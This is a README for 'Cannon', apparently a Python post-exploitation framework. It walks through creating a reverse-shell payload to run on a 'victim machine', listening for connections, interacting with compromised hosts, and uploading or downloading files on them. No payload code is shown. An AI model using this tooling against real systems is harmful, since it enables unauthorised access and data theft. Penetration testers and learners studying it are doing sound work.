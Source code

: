 # Cannon

Cannon is a post-exploitation framework fully developed in python3. Once you have access to the system, this will make your work much easier with all the functionalities that this tool possesses. You will be able to download and upload files, run pre-defined modules, harvest reverse shells, and many more. This version of Cannon mainly focuses on attacking Unix-based machines. Most of the utilities that this framework carries based on Unix-based systems. But some of the functions will still work in Windows systems as well.

# Installation

`git clone https://github.com/kavishkagihan/Cannon/cannon.git && cd cannon && chmod +x cannon`

# Setup

Once you have this installed, you can run it.

`./cannon `

This will start the listener on our loopback address with the default port. If you want to use a different IP and a port you can also specify them.

`./cannon 192.168.1.102 4444`

Then you can use the `help` command to see the help menu.

![image](https://user-images.githubusercontent.com/85458014/124820162-7eea0180-df43-11eb-8e8f-ceac1a494a09.png)


# Usage

1.Creating the payload file.

After you run cannon, you can create a payload file, which conains the payload to be executed in the victim machine. You have to specify the port which you are listening on. 

`create 4444`

Payload will be saved in a file with the name of the 'SHELL_FILE' variable (defualt is cannon.shell)
![image](https://user-images.githubusercontent.com/85458014/124819453-a7bdc700-df42-11eb-9158-a37c2c8b4638.png)



2. Executing the payload

Then you can simply execute the shell on the victim machine

`python3 cannon.shell`


3. Cheking the connections

Once you have executed the payload, you can check if you have got the connection back.

`list`

![image](https://user-images.githubusercontent.com/85458014/124819508-b7d5a680-df42-11eb-8ea6-106123b5b64e.png)


4. Interate with a connected host

You can interact with a connected host with the 'connect' command.The hosts number should be given as an argument. You can check the number of the host with 'list'

`connect 1`


5. Disconnect a host

You can simply disconnect an unwanted host with the 'disconnect'  command.The hosts number should be given as an argument.

`disconnect 1`

![image](https://user-images.githubusercontent.com/85458014/124819595-cf149400-df42-11eb-8def-ebb585a395fa.png)


6. Start another listener

You also can bind another listeners while listening from this and get connections through that as well. The port to start the listener on should be given as an argument.

`bind 9002`

![image](https://user-images.githubusercontent.com/85458014/124819627-db005600-df42-11eb-9cca-36759508af4e.png)


7. Kill an active listener

When you want to stop an active listener you can use the 'kill' command. As an argument, the port of the listener should be specified.

`kill 9002`

![image](https://user-images.githubusercontent.com/85458014/124819669-e6ec1800-df42-11eb-80c8-93a97573abe9.png)


8. Check the statistics

With the 'status' command you can list the current status such as the Internet status, Listeners IP and PORT, number of listeners and the number of hosts connected.

`status`

![image](https://user-images.githubusercontent.com/85458014/124819922-3a5e6600-df43-11eb-82f8-4f64cf31d670.png)

9. Shell access to the local machine

While you are on the cannon framework, you can execute commands on your machine. When you want to go back to Cannon you can exit the shell with 'exit'

`shell`

![image](https://user-images.githubusercontent.com/85458014/124821076-a55c6c80-df44-11eb-8c1f-557148ea17ba.png)


10. Exit Cannon

You can simply exit this with the 'exit' command.

`exit`

Also if you are comfortable with using keyborad shortcuts, you can use the Control key and the EXIT_KEY (default is 'j')  to exit as well. You change change it to your preference. 


![image](https://user-images.githubusercontent.com/85458014/124821538-392e3880-df45-11eb-9230-ef781944f3b7.png)

# Interacting with the meterpreter instance

After you connect to a host (with the 'connect' command) you can do certian things which will help you further with the exploitation process. You can use the `help` command to view the help menu.

![image](https://user-images.githubusercontent.com/85458014/124867430-7b329b00-df94-11eb-958b-cf37aa929e65.png)

1. Upload files

You can upload files with the 'upload' command. This takes two arguments. First one being the source file that you want to upload. And then the destination path for the file to be uploaded. (This version of Cannon doesn't support uploading or downloading binary files. That feature will be added soon)

`upload example_file /tmp/uploaded_file`

![image](https://user-images.githubusercontent.com/85458014/124867749-0c097680-df95-11eb-8b76-c1490f9e127c.png)


You can clarify that by looking at the uploaded file.

![image](https://user-images.githubusercontent.com/85458014/124867820-29d6db80-df95-11eb-8290-bd74cdbe8892.png)


2. Download files

You can download files as well, This also takes two arguments, the path of file you want to download and the destination path to the file to be saved.

`download /tmp/uploaded_file downloaded_file`

![image](https://user-images.githubusercontent.com/85458014/124868243-de70fd00-df95-11eb-88b5-ff0295358be6.png)

Again, you can clarify it by looking at the downloaded file.

![image](https://user-images.githubusercontent.com/85458014/124868317-f9437180-df95-11eb-8022-1a4ca7a92172.png)


















